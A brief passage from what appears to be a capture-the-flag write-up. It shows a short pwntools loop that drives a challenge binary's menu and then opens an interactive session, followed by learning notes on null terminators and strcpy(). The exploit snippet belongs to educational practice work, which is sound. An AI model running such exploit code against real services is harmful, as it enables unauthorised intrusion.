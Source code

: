 ```python
for i in range(31,-1,-1):
    p.sendlineafter(b'\n> ', b'1')
    p.sendlineafter(b'(0-31): ', str(i).encode())

p.sendlineafter(b'\n> ', b'2')

p.interactive()
```

## Learning Outcomes

* This one felt more about reinforcing elements from earlier in the week. Nothing huge, but still great.
* The biggest value from this one lay in the code review. It's worth banking information like which functions can add null terminators (like `strcpy()`).